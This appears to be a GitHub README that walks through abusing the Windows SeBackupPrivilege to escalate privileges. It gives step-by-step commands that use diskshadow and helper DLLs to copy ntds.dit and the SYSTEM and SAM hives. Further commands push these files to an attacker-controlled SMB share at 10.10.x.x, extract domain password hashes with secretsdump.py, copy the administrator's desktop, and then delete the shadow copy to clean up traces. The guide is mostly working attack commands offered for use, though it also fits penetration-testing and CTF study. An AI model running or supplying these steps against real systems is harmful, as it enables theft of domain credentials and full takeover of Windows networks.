 # SeBackupPrivilege

If you've SeBackupPrivilege. We can use that privilege to read and get any file from the target machine. If we attack SAM, SYSTEM or ntds.dit some important files we can beacome SYSTEM.


# Exploitation

First upload [SeBackupPrivilegeCmdLets.dll](https://github.com/k4sth4/SeBackupPrivilege/blob/main/SeBackupPrivilegeCmdLets.dll) and [SeBackupPrivilegeUtils.dll](https://github.com/k4sth4/SeBackupPrivilege/blob/main/SeBackupPrivilegeUtils.dll) to target machine.

### Import he DLLs
```markdown
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
```

### Create a vss.dsh file
```markdown

set context persistent nowriters
set metadata c:\\programdata\\test.cab        
set verbose on
add volume c: alias test
create
expose %test% z:

```
NOTE: c:\\programdata is the writeable path where you i have upload dll and creating a test.cab

### Change the file format
```markdown
unix2dos vss.dsh
```

upload the file on C:\\programdata 

### Use diskshadow to explore the func of copy
```markdown
diskshadow /s c:\\programdata\\vss.dsh
```

### Now you can copy any file 
copy any file to present dir and then download it to your system
We gonna get ntds.dit and system
```markdown
Copy-FileSeBackupPrivilege z:\\Windows\\ntds\\ntds.dit c:\\programdata\\ntds.dit
```
Now system file
```markdown
reg save HKLM\SYSTEM C:\\programdata\\SYSTEM
```
Now we can see that both ntds.dit and SYSTEM files are in our present dir.
You can also get other sensetive files like SAM, SYSTEM, SECURITY.

Download these files using smb server.
```markdown
smbserver.py k4sth4 . -smb2support -username kt -password kt
net use \\10.10.x.x\k4sth4 /u:kt kt
```
```markdown
Copy-FileSeBackupPrivilege z:\\Windows\\ntds\\ntds.dit \\10.10.x.x\k4sth4\ntds.dit
reg.exe save hklm\system \\10.10.x.x\system
```

### Now extract the hashes from ntds.dit with SYSTEM as key
```markdown
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

### We can also Dump the whole administrator dir into Temp
```markdow
robocopy /b C:\\users\\administrator\\desktop C:\\programdata\\temp
```
now we get all the desktop files in temp dir.

## Now after doing this CleanUp is necessary

### cleanUp script vss.dsh
```markdown
set context persistent nowriters
set metadata c:\\programdata\\test.cab
set verbose on
delete shadows volume test
reset
```
```markdown
unix2dos vss.dsh
```

### upload and run
```markdown
diskshadow /s c:\\programdata\\vss.dsh
```



